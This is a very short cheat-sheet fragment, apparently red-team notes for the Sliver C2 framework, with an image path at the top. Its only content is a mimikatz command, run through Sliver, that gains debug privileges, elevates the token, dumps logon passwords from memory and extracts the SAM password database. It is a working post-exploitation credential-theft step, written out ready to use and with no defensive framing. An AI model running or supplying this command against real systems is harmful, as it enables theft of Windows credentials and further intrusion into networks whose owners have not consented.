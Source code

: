# sliver

% sliver, C2

## tools - mimikatz
```bash
mimikatz -t 3600 -- "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /all" "lsadump::sam" "exit"
```